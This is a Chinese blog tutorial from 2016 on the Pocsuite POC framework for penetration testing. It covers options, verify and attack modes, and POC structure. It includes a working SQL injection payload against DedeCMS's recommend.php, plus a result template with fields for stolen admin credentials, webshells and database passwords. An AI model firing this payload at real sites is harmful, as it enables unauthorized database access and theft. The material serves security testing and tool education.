 ```yaml
---
draft: false
date: 2016-09-08 20:38:45
title: POC 框架 Pocsuite
description: 
categories:
  - Pentest
tags:
  - tools
---
```


### 0x00 关于Pocsuite
Pocsuite 是知道创宇安全研究团队打造的一款基于漏洞与 POC 的远程漏洞验证框架。可以让我们不用考虑过多的细节，只要考虑验证代码就可以，它封装了一些我们常用的东西，比如requests，在我们平常使用requests是要考虑cookie、要考虑header，但是在框架下则不需要有这些考虑，因为这些东西框架都帮你解决了。

### 0x01 简单介绍
* 安装
    * 使用pip install pocsuite即可安装
    ![安装pocsuite](/img/post/pocsuite_install.png)
* 常用参数
    * -u 指定一个目标url
    * -f 指定一个存放目标url的文件
    * -r 指定一个存放poc的文件夹
    * --report 导出结果到html文件
    * --cookie 携带cookie
    * --referer 修改referer
    * --user-agent 修改UA
* 模式
    * 执行一个poc有两种模式
        * \-\-verify 漏洞验证模式(只是验证，不能更改服务器的东西)
        * \-\-attack 漏洞利用模式
    * 示例
        * ```pocsuite -u "http://www.xxxx.com" -r poc_path/poc_name.py --atack```
* poc编写
    * 可以新建一个文件夹，命名为mypoc，里面就放你自己写的poc(当然也可以在mypoc里新建文件夹放一类poc，对poc进行分类)
    * 此时示例(对目标进行常见服务的测试，加载一类多个poc脚本)
        * ```pocsuite -u "http://www.xxxx.com" -r poc_path/server/ --verify```

* poc的命名规范
    * 漏洞ID_版本号_漏洞类型(其中不能有大写字母，所有符号要改为```"_"```),大致如下：
        * _xxxx_struct2_2016_s2_016_code_execution.py
        * _xxxx_dedecms_20130715_sql_inj.py
* poc的编写流程
    * 导入pocsuite API模块
    * 创建TestPOC类
    * 填写POC信息
    * 编写_berify()方法
    * 编写_attack()方法
    * 注册类

### 0x02 实例
> ```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# 导入pocsuite的必要模块
from pocsuite.net import req # requests模块，和requests用法完全一样
from pocsuite.poc import POCBase, Output
from pocsuite.utils import register

class TestPOC(POCBase):
    """docstring for TestPOC"""
    vulID            = ''      # VUL ID
    version          = ''      # 版本号,默认为1
    author           = ''      # POC 作者的大名
    vulDate          = ''      # 漏洞公开的时间,不知道就写今天
    createDate       = ''      # 编写 POC 的日期
    updateDate       = ''      # POC更新的时间,默认和编写时间一样
    references       = ['']    # 漏洞地址来源,0day 不用写
    name             = ''      # POC 名称
    appPowerLink     = ''      # 漏洞厂商主页地址
    appName          = ''      # 漏洞应用名称
    appVersion       = ''      # 漏洞影响版本
    vulType          = ''      # 漏洞类型,类型参考见 漏洞类型规范表
    desc             = ''' ''' # 漏洞简要描述
    samples          = []      # 测试样例,就是用 POC 测试成功的网站url，选填
    install_requires = []      # POC 第三方模块依赖，请尽量不要使用第三方模块

    def _verify(self, verify=True): # 漏洞测试代码
        result = {}
        target_url = self.url

        # 这里写入漏洞测试代码
        path = "/plus/recommend.php"
        payload = "?action=&aid=1&_FILES[type][tmp_name]=\\%27%20or%20mid=@`\\%27`%20/*!50000union*//*!50000select*/1,2,3,(select md5(512341)),5,6,7,8,9%23@`\\%27`+&_FILES[type][name]=1.jpg&_FILES[type][type]=application/octet-stream&_FILES[type][size]=4294"
        html = req.get(target_url + path + payload, timeout=10).content
        if '5e8523b1645e6225001b9027cddc1c85' in html:
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = self.url + path
            result['VerifyInfo']['Path'] = path
            result['VerifyInfo']['Payload'] = payload
        
        return self.parse_attack(result)

    def _attack(self): # 漏洞利用代码
        # result = {}
        # # 先进行检测是否存在漏洞
        # if not self._verify(verify=False):
        #     return self.parse_attack(result)
        # target_url = self.url

        # # 这里写漏洞利用代码

        # return self.parse_attack(result)
        
        return self._verify() # 如果没漏洞利用代码，可以直接return测试函数

    def parse_attack(self, result): # poc输出函数，可以输出错误和成功信息
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Nothing returned')
        return output

register(TestPOC) #注册类
```

### 0x03 关于poc中result字典的内容
> ```
# result是一个字典，里面存储所有的漏洞信息:
result：{
    'DBInfo': {
        'Username': '管理员用户名',
        'Password'：'管理员密码',
        'Salt': '加密盐值',
        'Uid': '用户ID',
        'Groupid': '用户组ID'
        }
    'ShellInfo': {
        'URL': 'Webshell地址',
        'Content': 'Webshell内容'
        }
    'FileInfo': {
        'Filename': '文件名称',
        'Content': '文件内容'
        }
    'XSSInfo': {
        'URL': '验证URL',
        'Payload': '验证Payload'
        }
    'AdminInfo': {
        'Uid': '管理员ID',
        'Username': '管理员用户名',
        'Password': '管理员密码'
        }
    'Database': {
        'Hostname': '数据库主机名',
        'Username': '数据库用户名' ,
        'Password': '数据库密码',
        'DBname': '数据库名'
        }
    'VerifyInfo': {
        'URL': '验证URL',
        'Postdata': '验证POST数据',
        'Path': '网站绝对路径'
        }
    'SiteAttr': {
        'Process': '服务器进程'
        }
}
```